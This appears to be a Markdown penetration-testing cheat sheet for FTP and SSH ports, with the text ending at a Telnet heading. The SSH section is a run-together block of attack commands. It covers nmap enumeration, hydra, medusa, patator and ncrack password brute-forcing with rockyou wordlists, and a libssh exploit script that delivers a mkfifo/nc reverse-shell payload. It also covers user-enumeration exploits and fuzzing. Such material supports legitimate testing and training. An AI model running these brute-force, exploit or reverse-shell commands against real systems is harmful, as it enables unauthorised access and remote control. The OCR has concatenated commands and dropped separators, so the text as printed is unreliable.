 # Ports

## General

AIO [Penetration Testing Methodology - 0DAYsecurity.com](http://0daysecurity.com/penetration-testing/enumeration.html)

## Port 21 - FTP

```
nmap --script ftp-* -p 21 10.11.1.111
```

## Port 22 - SSH

- If you have usernames test login with username:username
- Vulnerable Versions to user enum: <7.7

```
# Enum SSH# Get versionnmap 10.11.1.1 -p22 -sV# Get bannernc 10.11.1.1 22# Get login bannerssh root@10.11.11.1# Get algorythms supporteednmap -p22 10.11.1.1 --script ssh2-enum-algos# Check weak keysnmap-p22 10.2.1.1 --script ssh-hostkey --script-args ssh_hostkey=full# Check auth methodsnmap -p22 10.11.1.1 --script ssh-auth-methods --script-args="ssh.user=admin"# User can ask to execute a command right after authentication before it’s default command or shell is executed$ ssh -v user@10.10.1.111 id...Password:debug1: Authentication succeeded (keyboard-interactive).Authenticated to 10.10.1.111 ([10.10.1.1114]:22).debug1: channel 0: new [client-session]debug1: Requesting no-more-sessions@openssh.comdebug1: Entering interactive session.debug1: pledge: networkdebug1: client_input_global_request: rtype hostkeys-00@openssh.com want_reply 0debug1: Sending command: iddebug1: client_input_channel_req: channel 0 rtype exit-status reply 0debug1: client_input_channel_req: channel 0 rtype eow@openssh.com reply 0uid=1000(user) gid=100(users) groups=100(users)debug1: channel 0: free: client-session, nchannels 1Transferred: sent 2412, received 2480 bytes, in 0.1 secondsBytes per second: sent 43133.4, received 44349.5debug1: Exit status 0# Check Auth Methods:$ ssh -v 10.10.1.111OpenSSH_8.1p1, OpenSSL 1.1.1d  10 Sep 2019...debug1: Authentications that can continue: publickey,password,keyboard-interactive# Force Auth Method:$ ssh -v 10.10.1.111 -o PreferredAuthentications=password...debug1: Next authentication method: password# BruteForce:patator ssh_login host=10.11.1.111 port=22 user=root 0=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt password=FILE0 -x ignore:mesg='Authentication failed.'hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M sshncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111# LibSSH Before 0.7.6 and 0.8.4 - LibSSH 0.7.6 / 0.8.4 - Unauthorized Access# Idpython /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 id# Reversepython /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.1.111 80 >/tmp/f"# SSH FUZZ# <https://dl.packetstormsecurity.net/fuzzer/sshfuzz.txt># cpan Net::SSH2./sshfuzz.pl -H 10.10.1.111 -P 22 -u user -p useruse auxiliary/fuzzers/ssh/ssh_version_2# SSH-AUDIT# <https://github.com/arthepsy/ssh-audit># Enum users < 7.7:# <https://www.exploit-db.com/exploits/45233><https://github.com/CaioCGH/EP4-redes/blob/master/attacker/sshUsernameEnumExploit.py>python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt IP 2>/dev/null | grep "is a"# SSH Leaks:<https://shhgit.darkport.co.uk/># SSH bruteforce# <https://github.com/kitabisa/ssb>
```

## Port 23 - Telnet
